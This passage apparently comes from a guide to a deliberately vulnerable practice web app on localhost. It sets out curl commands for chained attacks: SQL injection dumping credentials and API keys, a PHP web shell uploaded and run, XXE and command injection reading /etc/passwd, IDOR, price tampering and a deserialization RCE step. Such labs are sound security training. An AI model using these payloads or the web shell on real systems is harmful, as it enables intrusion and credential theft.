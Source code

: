 #### 10.1 Session Data Exposure
**Target**: `/session/data` endpoint

```bash
# Analyze session information
curl -X GET http://localhost:5000/session/data \
  -H "Cookie: session=test_session_id" | jq .

# Session fixation testing
curl -X GET http://localhost:5000/session/data \
  -H "Cookie: session=attacker_controlled_session"
```

## 🔗 Vulnerability Chaining Scenarios

### Scenario 1: Complete Application Compromise
```bash
# Step 1: SQL injection to extract user credentials
curl -G http://localhost:5000/shop \
  --data-urlencode "search=' UNION SELECT username,password,email,role,api_key FROM users-- "

# Step 2: Use extracted admin credentials
curl -X POST http://localhost:5000/login \
  -d "username=admin&password=admin123"

# Step 3: Upload web shell via file upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -X POST http://localhost:5000/upload -F "file=@shell.php"

# Step 4: Execute commands via uploaded shell
curl "http://localhost:5000/uploads/shell.php?cmd=whoami"
```

### Scenario 2: Data Exfiltration Chain
```bash
# Step 1: XXE to discover internal files
curl -X POST http://localhost:5000/api/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><user><n>&xxe;</n></user>'

# Step 2: Command injection to access discovered files
curl -X POST http://localhost:5000/tools/ping \
  -d "host=127.0.0.1; cat /etc/passwd&count=1"

# Step 3: Use IDOR to access user database
curl http://localhost:5000/api/users/1 | jq '.password_hash'
```

### Scenario 3: Privilege Escalation Chain
```bash
# Step 1: Business logic flaw to create free orders
curl -X POST http://localhost:5000/api/purchase \
  -H "Content-Type: application/json" \
  -d '{"product_id": "1", "quantity": 1, "price": 0}'

# Step 2: IDOR to access admin functions
curl "http://localhost:5000/admin?user_id=1"

# Step 3: Deserialization RCE for full system control
curl -X POST http://localhost:5000/api/data \
  -d "data=[base64_rce_payload]"
```
